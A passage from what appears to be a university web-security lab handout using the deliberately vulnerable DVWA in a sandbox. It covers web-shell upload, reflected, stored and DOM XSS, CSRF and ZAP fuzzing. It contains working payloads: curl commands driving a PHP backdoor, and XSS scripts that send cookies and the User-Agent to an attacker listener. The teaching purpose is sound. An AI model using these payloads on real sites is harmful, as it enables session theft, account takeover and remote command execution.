Set-Cookie: PHPSESSID=a38f22af034d65f8cd0647123f83309a; expires=Fri, 29 Nov 2024 15:50:56 GMT; Max-Age=86400; path=/
Expires: Tue, 23 Jun 2009 12:00:00 GMT
Cache-Control: no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html;charset=utf-8
```
 
* Explore the available collection of PHP web shells in Kali Linux (located at `/usr/share/webshells/php/`) and attempt to upload `simple-backdoor.php` to the DVWA web server. 

```shell-session
root@attacker:~# curl -s -X POST -F "MAX_FILE_SIZE=100000" -F "uploaded=@/usr/share/webshells/php/simple-backdoor.php" -F "Upload=Upload" http://10.0.0.10:80/vulnerabilities/upload/ | lynx -nolist -dump -stdin

../../hackable/uploads/simple-backdoor.php succesfully uploaded!
```

* Execute the web shell on the server and analyze the response.

```shell-session
root@attacker:~# curl -s http://10.0.0.10:80/hackable/uploads/simple-backdoor.php | lynx -nolist -dump -stdin
   Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd
```

* Craft a command to display the IP address, username, and the working directory where the web shell is running.

```shell-session
root@attacker:~# curl -s 'http://10.0.0.10:80/hackable/uploads/simple-backdoor.php?cmd=hostname+-I;whoami;pwd' | lynx -nolist -dump -stdin
10.0.0.10
www-data
/var/www/html/hackable/uploads
```

* Use HTTP POST method to send commands to web shell.

```shell-session
root@attacker:~# curl -s -d 'cmd=hostname -I; whoami; pwd' http://10.0.0.10:80/hackable/uploads/simple-backdoor.php | lynx -nolist -dump -stdin
10.0.0.10
www-data
/var/www/html/hackable/uploads
```
</details>

### Task: Cross-Site Scripting Attacks

There are three primary types of Cross-Site Scripting (XSS) attacks [[PortSwigger](https://portswigger.net/web-security/cross-site-scripting), [OWASP](https://owasp.org/www-community/attacks/xss/)]. **Reflected XSS** occurs when the malicious script is embedded in the current HTTP request and is reflected back to the user without proper sanitization. **Stored XSS** involves the injection of a malicious script into a website's database, which is then served to users when they access affected pages. Finally, **DOM-based XSS** arises from vulnerabilities in client-side code, where the browser processes the malicious script directly, independent of the server-side logic.

<details>
<summary>
Reflected XSS Attack
</summary>

* To perform a reflected XSS attack, we will set up [`simplehttpserver.py`](./simplehttpserver.py) on the attacker's machine to capture and visualize data exfiltrated from the user's browser. The server will listen on TCP port 8080.

```shell-session
root@attacker:~# python simplehttpserver.py
Simple HTTP server listening on port 8080
Decoded POST data: {'userAgent': ['Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0']}
10.0.0.254 - - [29/Nov/2024 22:20:22] "POST / HTTP/1.1" 200 -
Decoded POST data: {'cookies': ['security=low; PHPSESSID=f820db33450a96e31a3139fd2ad8efbd']}
10.0.0.254 - - [29/Nov/2024 22:20:54] "POST / HTTP/1.1" 200 -
```

* To monitor and debug traffic between the XSS script running in the `Firefox` browser and `simplehttpserver.py`, we will use `tshark` to capture HTTP POST requests on the loopback (lo) interface. 

```shell-session
root@attacker:~# tshark -l -q -n -i lo -f "dst host 10.0.0.254" -Y "http.request.method == POST" -O http,urlencoded-form  | sed 's/\\r\\n//g'
Frame 4: 524 bytes on wire (4192 bits), 524 bytes captured (4192 bits) on interface lo, id 0
Ethernet II, Src: 00:00:00:00:00:00, Dst: 00:00:00:00:00:00
Internet Protocol Version 4, Src: 10.0.0.254, Dst: 10.0.0.254
Transmission Control Protocol, Src Port: 55622, Dst Port: 8080, Seq: 1, Ack: 1, Len: 458
Hypertext Transfer Protocol
    POST / HTTP/1.1
        Request Method: POST
        Request URI: /
        Request Version: HTTP/1.1
    Host: 10.0.0.254:8080
    User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.0.0.10/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 105
        [Content length: 105]
    Origin: http://10.0.0.10
    Connection: keep-alive

    [Full request URI: http://10.0.0.254:8080/]
    File Data: 105 bytes
HTML Form URL Encoded: application/x-www-form-urlencoded
    Form item: "userAgent" = "Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0"
        Key: userAgent
        Value: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
```

* We will use a reflected XSS attack to exfiltrate the `User-Agent` and `Cookie` values.

```javascript
<script>
    fetch('http://10.0.0.254:8080', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: 'userAgent=' + encodeURIComponent(navigator.userAgent) 
    });
</script>
```

```javascript
<script>
    fetch('http://10.0.0.254:8080', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: 'cookies=' + encodeURIComponent(document.cookie)
    });
</script>
```

* To make it easier to insert the script code into the browser forms, we converted the scripts into their respective one-liners.

```javascript
<script> fetch('http://10.0.0.254:8080', { method: 'POST', headers: { 'Content-Type': 'application/x-www-form-urlencoded' }, body: 'userAgent=' + encodeURIComponent(navigator.userAgent) }); </script>

<script> fetch('http://10.0.0.254:8080', { method: 'POST', headers: { 'Content-Type': 'application/x-www-form-urlencoded' }, body: 'cookies=' + encodeURIComponent(document.cookie) }); </script>
```

* Navigate to the XSS (Reflected) menu in DVWA. Enter your name and append the javascript code to exfiltrate the `User-Agent`. You should be able to see the `User-Agent` value of the `Firefox` browser in `tshark` and `simplehttpserver` on the attacker's machine. Next, test the script to exfiltrate the cookies.

* To automate sending the cookies, use the following script, perform the XSS (Reflected) attack, and click the button.

```javascript
<a href="#" onclick="fetch('http://10.0.0.254:8080', {method: 'POST', headers: {'Content-Type': 'application/x-www-form-urlencoded'}, body: 'cookies=' + encodeURIComponent(document.cookie)});">Click me to send your cookies to me!</a>
```

* Write your own javascript code and test it to practice exploiting a reflected XSS attack.

</details>

<details>
<summary>
Stored XSS Attack
</summary>

* We will continue to use `simplehttpserver.py` and `tshark` on the attacker's machine to capture and visualize data exfiltrated from the user's browser.

* Navigate to the XSS (Stored) menu in DVWA and submit a new message to the board with the name `XSS-ALERT` and the content `<script>alert(navigator.userAgent)</script>`. Then, visit any random page in DVWA and return to the XSS (Stored) page. Each time the page is displayed, the script will execute, triggering a popup message. Clear the guestbook before moving on to the next task.

* Let's submit a new message to the board with the name `XSS-UA` and the javascript code used in the reflected XSS attack to exfiltrate the User-Agent to a remote server.

* Guestbook messages are limited to 50 characters by the input form, making it impossible to directly input the entire javascript code when it exceeds this character limit. Locate the following line in the XSS (Stored) HTML page (right-click on the message input field in Firefox and select `Inspect (Q)` from the context menu), then change the value to 300, which is the actual maximum size of the field in the database. This adjustment will allow you to enter the full script.

```html
<textarea name="mtxMessage" cols="50" rows="3" maxlength="50"></textarea>
```

* Each time the XSS (Stored) page is displayed, the script will execute and send the User-Agent to our server. Clear the guestbook before moving on to the next task.

* We will use `curl` to submit the guestbook message and bypass the maxlength limit. It's important to replace all `+` characters with `%2B` in the javascript provided to `curl`. The plus sign (+) has a specific meaning: curl interprets it as a space, which will break the script. 

```shell-session
root@attacker:~# curl -X POST http://10.0.0.10/vulnerabilities/xss_s/ -d "btnSign=Sign Guestbook" -d "txtName=CURL-XSS-UA" -d "mtxMessage=<script>fetch('http://10.0.0.254:8080', {method: 'POST', headers: {'Content-Type': 'application/x-www-form-urlencoded'}, body: 'userAgent=' %2B encodeURIComponent(navigator.userAgent)});</script>" | lynx -nolist -dump -stdin
...
Vulnerability: Stored Cross Site Scripting (XSS)

   Name *    ______________________________
   Message *
   __________________________________________________
   __________________________________________________
   __________________________________________________
             Sign Guestbook Clear Guestbook
   Name: CURL-XSS-UA
   Message:
```

* Use curl to upload the javascript that will exfiltrate the cookies, then check the web server output after displaying the XSS (Stored) page. You should see both the `User-Agent` and `cookies` of the browser that accessed the guestbook. Clear the guestbook before moving on to the next task.

```shell-session
root@attacker:~# python simplehttpserver.py
Simple HTTP server listening on port 8080
Decoded POST data: {'userAgent': ['Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0']}
10.0.0.254 - - [30/Nov/2024 05:48:51] "POST / HTTP/1.1" 200 -
Decoded POST data: {'cookies': ['security=low; PHPSESSID=f820db33450a96e31a3139fd2ad8efbd']}
10.0.0.254 - - [30/Nov/2024 05:48:51] "POST / HTTP/1.1" 200 -
```

* Use `curl` to upload the javascript that will `redirect users to the login page` after displaying the XSS (Stored) page. After completing this task, `reset the DVWA database` before proceeding to the next task.

```javascript
<script>window.location.replace('http://10.0.0.10/login.php');</script>
```

* Write your own javascript code and test it to practice exploiting a stored XSS attack.

</details>

<details>
<summary>
DOM-based XSS Attack
</summary>

* We will continue to use `simplehttpserver.py` and `tshark` on the attacker's machine to capture and visualize data exfiltrated from the user's browser.

* Navigate to the XSS (DOM) menu in DVWA, select the `French` language, and click the `Select` button. The browser will display the updated URL.

```html
http://10.0.0.10/vulnerabilities/xss_d/?default=French
```

* By analyzing the page source code, we can see that the value placed in the URL is used to build the page's DOM. This opens up the possibility of a DOM-based XSS attack, where malicious javascript is embedded in the URL and executed by the client-side javascript during page rendering. In this case, the XSS payload is dynamically constructed as the page renders, rather than being statically served during the server fetch. 

```javascript
<form name="XSS" method="GET">
	<select name="default">
		<script>
			if (document.location.href.indexOf("default=") >= 0) {
				var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
				document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
				document.write("<option value='' disabled='disabled'>----</option>");
			}

			document.write("<option value='English'>English</option>");
			document.write("<option value='French'>French</option>");
			document.write("<option value='Spanish'>Spanish</option>");
			document.write("<option value='German'>German</option>");
		</script>
	</select>
	<input type="submit" value="Select" />
</form>
```

* Extend the original URL by appending javascript code to display the `User-Agent` in the browser.

```html
http://10.0.0.10/vulnerabilities/xss_d/?default=French<script>alert(navigator.userAgent)</script>
```

* Use javascript code to exfiltrate the User-Agent and cookies, as well as redirect the page, to practice a DOM-based XSS attack.
</details>

### Task: Cross-Site Request Forgery Attack

Cross-Site Request Forgery (CSRF) [[PortSwigger](https://portswigger.net/web-security/csrf), [OWASP](https://owasp.org/www-community/attacks/csrf)] is a web security vulnerability that enables attackers to trick authenticated users into performing unintended actions on a web application. By exploiting the trust a website has in the user's browser, an attacker can craft malicious requests that appear legitimate. These actions, executed without the user's intent, can range from changing account details to initiating financial transactions, posing significant security risks to both users and web applications.

<details>
<summary>
Cross-Site Request Forgery Attack
</summary>

* Log in to the DVWA portal using the page at `http://10.0.0.10/login.php`, and enter the username `admin` and the password `password`.

* Navigate to the CSRF menu in DVWA and change the password to `1234`. The browser will display the updated URL used to change the password for the logged-in user.

```html
http://10.0.0.10/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change#
```

* Craft a javascript code that will change the password of the logged-in user to `CSRFvulnerable`.

```javascript
<script>
    fetch('http://10.0.0.10/vulnerabilities/csrf/?password_new=CSRFvulnerable&password_conf=CSRFvulnerable&Change=Change' + encodeURIComponent(document.cookie), {
        method: 'GET'
    });
</script>
```

* Use curl to upload the javascript to the guestbook. It's important to replace all `&` characters with `%26` and `+` characters with `%2B` in the javascript.

```shell-session
root@attacker:~# curl -s -X POST http://10.0.0.10/vulnerabilities/xss_s/ -d "btnSign=Sign Guestbook" -d "txtName=CSRF-PASSWORD" -d "mtxMessage=<script> fetch('http://10.0.0.10/vulnerabilities/csrf/?password_new=CSRFvulnerable%26password_conf=CSRFvulnerable%26Change=Change' %2B encodeURIComponent(document.cookie), { method: 'GET' }); </script>" | lynx -nolist -dump -stdin
```

* Display the XSS (Stored) page to execute the script and unintentionally change the admin password to `CSRFvulnerable`.

* Open a new `Firefox` private window (anonymous mode). Log in to the DVWA portal using the page at `http://10.0.0.10/login.php`, and enter the username `admin` and the password `CSRFvulnerable` to verify that the CSRF attack was completed successfully. 

* Reset the DVWA database before moving on to the next task.

</details>

### Task: Man-in-the-Middle Attack

[ZAP](https://www.zaproxy.org) (Zed Attack Proxy) acts as a proxy for intercepting and inspecting HTTP/HTTPS traffic between a client (browser) and a server. Functioning as a Man-in-the-Middle (MITM), ZAP allows testers to analyze requests and responses, manipulate data, and identify security vulnerabilities such as XSS, SQL injection, and CSRF.

<details>
<summary>
ZAP - Zed Attack Proxy
</summary>

* **Launch ZAP**: Start ZAP by running the `zaproxy` command in the terminal or opening it from the applications menu. Once ZAP launches, verify that the `Main Proxy` is active by checking the bottom bar of the interface, where it should display `localhost:8080`. If needed, adjust the proxy settings via `Tools -> Options -> Local Proxy` to ensure the configuration matches this setup.

* **Configure Firefox**: Open the Firefox browser and configure it to use an HTTP proxy. Go to `Settings -> Network Settings -> Connection Settings`, select `Manual Proxy Configuration`, enter `127.0.0.1` as the HTTP Proxy, and set the Port to `8080`.

* **Navigate to DVWA**: In Firefox, go to the DVWA portal by entering `http://10.0.0.10` in the address bar. Once the page loads, switch to the ZAP interface. Check the `Sites` or `History` tab to observe the captured HTTP traffic. Focus on the `Request` and `Response` tabs to analyze the communication between the browser and the server.

* **Interact with DVWA**: Navigate to the `Brute Force` menu in DVWA. Enter the username `admin` and the password `1234`, then submit the form. Return to the ZAP interface to view and analyze the captured HTTP request and response details.

* **Configure Fuzzing in ZAP**: In ZAP, locate and select the `GET request` containing the filled username and password fields. Highlight the password field (the text `1234`), `right-click` to open the context menu, and select the `Fuzz option` to begin configuring a fuzzing attack. Next, go to `Payloads -> Add -> File`, enter the wordlist path `/usr/share/wordlists/wfuzz/general/common.txt`, and start the fuzzer. The key steps are shown in the figure below.
![ZAP HTTP Fuzzer setup](figures/zap-http-fuzzer-setup.png)

* Go to the `Search tab` and select the `HTTP Fuzzer Results` from the pop-up menu. In the search bar, enter the phrase `Welcome to the password` to find any occurrences of this phrase in the captured HTTP responses. Check that the value of the password field is set to password. The key steps are shown in the figure below.
![ZAP HTTP Fuzzer results](figures/zap-http-fuzzer-results.png)

* Get familiar with ZAP by exploring its various features and functions. Practice using other tools within the ZAP proxy, such as Forced Browse, Spider, Active Scan, and Fuzzing, to analyze and test the security of the DVWA web application.

</details>

## Feedback on Lab Sessions

This is the last lab session of PB177. Please provide your feedback using Claper at http://172.26.7.88:4000/e/6377 (accessible only from FI, VPN, `wlan_fi` or `eduroam` networks).

## End of the Lab

If you finish all tasks, stop the sandbox using `podman-compose down`.

